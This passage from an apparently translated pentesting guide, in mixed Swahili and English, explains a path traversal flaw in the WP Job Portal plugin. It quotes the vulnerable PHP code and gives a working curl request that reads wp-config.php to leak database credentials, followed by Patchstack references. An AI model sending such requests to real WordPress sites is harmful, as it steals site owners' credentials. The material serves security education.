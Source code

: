 
### Kupakua Faili Bila Uthibitisho / Path Traversal (WP Job Portal <= 2.3.2)

Another task, **downloadcustomfile**, allowed visitors to download **any file on disk** via path traversal.  The vulnerable sink is located in `modules/customfield/model.php::downloadCustomUploadedFile()`:
```php
$file = $path . '/' . $file_name;
...
echo $wp_filesystem->get_contents($file); // raw file output
```
`$file_name` inadhibitiwa na mshambuliaji na imeunganishwa **bila kusafishwa**. Mara nyingine tena, kizuizi pekee ni **CSRF nonce** ambayo inaweza kupatikana kutoka kwenye ukurasa wa resume.

#### Exploitation
```bash
curl -G https://victim.com/wp-admin/admin-post.php \
--data-urlencode 'task=downloadcustomfile' \
--data-urlencode '_wpnonce=<nonce>' \
--data-urlencode 'upload_for=resume' \
--data-urlencode 'entity_id=1' \
--data-urlencode 'file_name=../../../wp-config.php'
```
Seva inarudisha yaliyomo ya `wp-config.php`, leaking DB credentials and auth keys.

## Marejeo

- [Unauthenticated Arbitrary File Deletion Vulnerability in Litho Theme](https://patchstack.com/articles/unauthenticated-arbitrary-file-delete-vulnerability-in-litho-the/)
- [Multiple Critical Vulnerabilities Patched in WP Job Portal Plugin](https://patchstack.com/articles/multiple-critical-vulnerabilities-patched-in-wp-job-portal-plugin/)
- [Rare Case of Privilege Escalation in ASE Plugin Affecting 100k+ Sites](https://patchstack.com/articles/rare-case-of-privilege-escalation-in-ase-plugin-affecting-100k-sites/)
- [ASE 7.6.3 changeset – delete original roles on profile update](https://plugins.trac.wordpress.org/changeset/3211945/admin-site-enhancements/tags/7.6.3/classes/class-view-admin-as-role.php?old=3208295&old_path=admin-site-enhancements%2Ftags%2F7.6.2%2Fclasses%2Fclass-view-admin-as-role.php)
- [Hosting security tested: 87.8% of vulnerability exploits bypassed hosting defenses](https://patchstack.com/articles/hosting-security-tested-87-percent-of-vulnerability-exploits-bypassed-hosting-defenses/)
- [WooCommerce Payments ≤ 5.6.1 – Unauth privilege escalation via trusted header (Patchstack DB)](https://patchstack.com/database/wordpress/plugin/woocommerce-payments/vulnerability/wordpress-woocommerce-payments-plugin-5-6-1-unauthenticated-privilege-escalation-vulnerability)
- [Hackers exploiting critical WordPress WooCommerce Payments bug](https://www.bleepingcomputer.com/news/security/hackers-exploiting-critical-wordpress-woocommerce-payments-bug/)
- [Unpatched Privilege Escalation in Service Finder Bookings Plugin](https://patchstack.com/articles/unpatched-privilege-escalation-in-service-finder-bookings-plugin/)
- [Service Finder Bookings privilege escalation – Patchstack DB entry](https://patchstack.com/database/wordpress/plugin/sf-booking/vulnerability/wordpress-service-finder-booking-6-0-privilege-escalation-vulnerability)

{{#include ../../banners/hacktricks-training.md}}
